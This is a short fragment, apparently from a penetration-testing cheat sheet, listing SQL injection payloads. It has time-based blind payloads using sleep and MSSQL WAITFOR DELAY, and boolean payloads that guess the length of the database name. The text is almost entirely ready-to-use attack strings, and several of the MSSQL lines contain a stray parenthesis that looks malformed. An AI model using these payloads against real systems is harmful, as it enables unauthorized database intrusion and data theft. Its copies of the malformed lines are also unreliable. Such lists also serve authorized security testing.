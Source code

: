 ### Time-based

```bash
test' and sleep(5)-- - (Most databases)
test' and sleep(5)# (Most databases)
test;waitfor delay '0:0:5)'-- -  (MSSQL)
1');WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
test';WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
1;WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
';WAITFOR DELAY '0:0:5'-- (MSSQL)
```

### Boolean

Determine character length of database name:

```bash
1' and length(database())=1#
1' and length(database())=2#
1' and length(database())=3#
```